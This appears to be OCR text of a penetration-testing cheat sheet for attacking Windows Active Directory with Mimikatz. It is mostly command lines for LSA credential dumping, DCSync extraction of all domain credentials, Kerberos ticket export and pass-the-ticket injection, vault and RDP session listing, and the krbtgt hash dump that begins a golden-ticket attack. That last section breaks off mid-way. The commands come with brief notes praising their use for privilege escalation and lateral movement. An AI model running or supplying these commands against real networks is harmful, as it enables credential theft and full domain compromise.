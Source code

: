 ```
```
```
mimikatz token::elevate
```
```
lsadump::lsa /inject
```
**#Dump the Domain’s Credentials without touching DC’s LSASS and also remotely
```
lsadump::dcsync /domain:<DomainFQDN> /all
```
**#List and Dump local kerberos credentials
```
kerberos::list /dump
```
**#Pass The Ticket
```
kerberos::ptt <PathToKirbiFile>
```
**#List TS/RDP sessions
```
ts::sessions
```
**#List Vault credentials
```
vault::list
```
**Kerberoasting:**
[https://stealthbits.com/blog/extracting-service-account-passwords-with-kerberoasting/](https://stealthbits.com/blog/extracting-service-account-passwords-with-kerberoasting/)
[https://medium.com/@markmotig/kerberoasting-from-setup-to-cracking-3e8c980f26e8](https://medium.com/@markmotig/kerberoasting-from-setup-to-cracking-3e8c980f26e8)
**Pass-The-Ticket (PTT):**
PTT works by dumping the TGT from the LSASS memory of the machine. LSASS is a memory process that stores credentials on an active directory server and can store Kerberos tickets along with other credential types. When you dump the ticket with Mimikatz it will give you a .kirbi ticket which can be used to gain domain admin if a domain admin ticket is in LSASS memory. Great attack for privilege escalation and lateral movement.
```
mimikatz.exe
```
```
privilege::debug
```
```
sekurlsa::tickets /export
```
- (this will export all of the .kirbi tickets into your present working directory)
**Always look for an administrator@krbtgt ticket if possible.**
Now to pass the ticket:
```
kerberos::ptt <.kirbi ticket>
```
- klist [not in mimikatz session — verifies your ticket was injected]
**Golden Ticket Attack:**
This attack works by dumping the TGT of any user on the domain, this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket you would dump any service or domain ticket.
```
mimikatz.exe
```
```
privilege::debug
```
```
lsadump::lsa /inject /name:krbtgt (to create a silver ticket change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account)
```
```
```